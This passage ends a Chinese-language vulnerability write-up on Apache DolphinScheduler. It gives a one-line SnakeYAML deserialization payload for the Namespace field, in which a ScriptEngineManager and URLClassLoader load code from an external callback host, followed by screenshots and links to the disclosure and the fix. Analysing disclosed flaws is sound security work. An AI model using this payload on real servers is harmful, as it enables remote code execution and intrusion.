 ```plain
```

设置 Namespace 为!!javax.script.ScriptEngineManager \[!!java.net.URLClassLoader \[\[!!java.net.URL \["[http://jifm.callback.red"\]\]\]\] 即可](http://jifm.callback.red/)

[![](assets/1709531007-ab4cc2cece46f2875667115624551749.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301115749-de9a8d34-d77f-1.png)

[![](assets/1709531007-201fedc8b9dcdb05c6ab76121a66dcb0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301115754-e1aa505e-d77f-1.png)

## 参考链接

[https://seclists.org/oss-sec/2023/q4/347](https://seclists.org/oss-sec/2023/q4/347)  
[https://github.com/apache/dolphinscheduler/pull/14991](https://github.com/apache/dolphinscheduler/pull/14991)
